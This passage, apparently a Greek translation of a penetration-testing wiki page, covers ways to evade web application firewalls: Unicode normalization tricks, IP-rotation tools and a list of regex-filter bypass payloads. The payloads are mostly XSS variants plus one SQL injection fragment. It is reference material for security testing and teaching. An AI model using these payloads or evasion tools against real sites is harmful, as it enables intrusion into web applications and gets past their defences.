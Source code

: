 Ανάλογα με την υλοποίηση της κανονικοποίησης Unicode (περισσότερες πληροφορίες [εδώ](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), χαρακτήρες που μοιράζονται την συμβατότητα Unicode μπορεί να είναι σε θέση να παρακάμψουν το WAF και να εκτελούνται ως το προοριζόμενο payload. Συμβατοί χαρακτήρες μπορούν να βρεθούν [εδώ](https://www.compart.com/en/unicode).

#### Example <a href="#example" id="example"></a>
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
### H2C Smuggling <a href="#ip-rotation" id="ip-rotation"></a>

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}

### IP Rotation <a href="#ip-rotation" id="ip-rotation"></a>

* [https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox): Δημιουργία ενός URL πύλης API για χρήση με το ffuf
* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin): Παρόμοιο με το fireprox
* [https://github.com/PortSwigger/ip-rotate](https://github.com/PortSwigger/ip-rotate): Πρόσθετο Burp Suite που χρησιμοποιεί IP πύλης API
* [https://github.com/fyoorer/ShadowClone](https://github.com/fyoorer/ShadowClone): Ένας δυναμικά καθορισμένος αριθμός περιβαλλόντων παραμέτρων ενεργοποιείται με βάση το μέγεθος του αρχείου εισόδου και τον παράγοντα διαχωρισμού, με την είσοδο να διαχωρίζεται σε κομμάτια για παράλληλη εκτέλεση, όπως 100 περιβάλλοντα να επεξεργάζονται 100 κομμάτια από ένα αρχείο εισόδου 10,000 γραμμών με παράγοντα διαχωρισμού 100 γραμμών.

### Regex Bypasses

Διαφορετικές τεχνικές μπορούν να χρησιμοποιηθούν για να παρακαμφθούν τα φίλτρα regex στα τείχη προστασίας. Παραδείγματα περιλαμβάνουν εναλλαγή πεζών-κεφαλαίων, προσθήκη διακοπών γραμμής και κωδικοποίηση φορτίων. Πόροι για τις διάφορες παρακάμψεις μπορούν να βρεθούν στο [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) και [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html). Τα παραδείγματα παρακάτω προήλθαν από [αυτό το άρθρο](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```